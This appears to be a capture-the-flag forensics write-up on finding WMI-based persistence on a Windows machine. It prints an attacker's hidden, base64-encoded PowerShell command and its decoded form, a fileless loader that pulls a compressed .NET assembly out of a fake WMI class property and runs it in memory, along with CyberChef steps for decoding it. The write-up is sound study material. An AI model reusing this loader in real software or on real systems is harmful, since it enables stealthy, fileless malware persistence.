








# Day 12 — After Hours

## Summary

Bar closed. Guests asleep. Something on the network just clocked in for a shift off the rotation.

## Objective

Long after the front desk closes and the pool lights dim, the resort's back-office machines keep humming. Someone, or something, has been logging in during the small hours, well after the night-shift technician has gone home.

Nothing obvious shows up in Startup, Scheduled Tasks, or the registry Run keys. Whatever's keeping itself alive is hiding somewhere quieter, tucked away in a corner of the system most tools don't think to check.

## Tools / Techniques / Threat Vectors


---

## Steps Taken

1. In this we room we are gonna be doing some forensic in a Windows based machine, because as you can see the files provided(.data, .btr, and .map) are VMI. The Windows Management Instrumentation (WMI) repository is a core database in Windows that stores system management data, class definitions, and operational metadata
    

    these files are usually unreadable, so we are going to use strings command to find something useful and pipeline grep it to something more specific like powershell in each files
    
    
    
    This command is gonna give us some clue to two files the .btr and .data

    ```bash
    cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQBzAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBIAGEAcgBkAHcAYQByAGUAVABlAGwAZQBtAGUAdAByAHkAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAG4AZgBpAGcARABhAHQAYQAnAF0ALgBWAGEAbAB1AGUAOwANAAoAJABvACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQA7AA0ACgAkAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEQAZQBmAGwAYQB0AGUAUwB0AHIAZQBhAG0AKABbAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtAF0AWwBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGYAaQBsAGUAKQAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApADsADQAKACQAYgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AKAAxADAAMgA0ACkAOwANAAoAJAByACAAPQAgACQAZAAuAFIAZQBhAGQAKAAkAGIALAAwACwAMQAwADIANAApADsADQAKAHcAaABpAGwAZQAoACQAcgAgAC0AZwB0ACAAMAApAHsADQAKACAAIAAgACAAJABvAC4AVwByAGkAdABlACgAJABiACwAMAAsACQAcgApADsADQAKACAAIAAgACAAJAByACAAPQAgACQAZAAuAFIAZQBhAGQAKAAkAGIALAAwACwAMQAwADIANAApADsADQAKAH0ADQAKAFsAUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAJABvAC4AVABvAEEAcgByAGEAeQAoACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsAEAAKAAsAFsAcwB0AHIAaQBuAGcAWwBdAF0AQAAoACkAKQApAHwATwB1AHQALQBOAHUAbABsAA==
    ```

    in which if we decode it from base64 you will get something like this;

    ```powershell
    $file = ([WmiClass]'ROOT\cimv2:Win32_HardwareTelemetry').Properties['ConfigData'].Value;
    $o = New-Object IO.MemoryStream;
    $d = New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress);
    $b = New-Object Byte[](1024);
    $r = $d.Read($b,0,1024);
    while($r -gt 0){
        $o.Write($b,0,$r);
        $r = $d.Read($b,0,1024);
    }
    [Reflection.Assembly]::Load($o.ToArray()).EntryPoint.Invoke($null,@(,[string[]]@()))|Out-Null
    ```

2. Now we strings again but this time pipeline it to grep the *ConfigData* or *HardwareTelemetry* in the objects.data since this data they are taking is from that file
    

    and immediately we are gonna see the value it is getting, we are gonna reverse it what the command did in powershell by using cyberchef

    ```text
        From base64
        Raw inflate
        strings
    ```

    

3. Now if tweaked the cyberchef a little bit, by configuring the output from Raw Bytes into purely Text we are gonna see some cmd command in the red box, Go to the yellow box and Replace the Raw Bytes into Text which is usually Tt
    

    Now we are gonna decode it from base64 and then we got the flag

    

## What I Learned

---
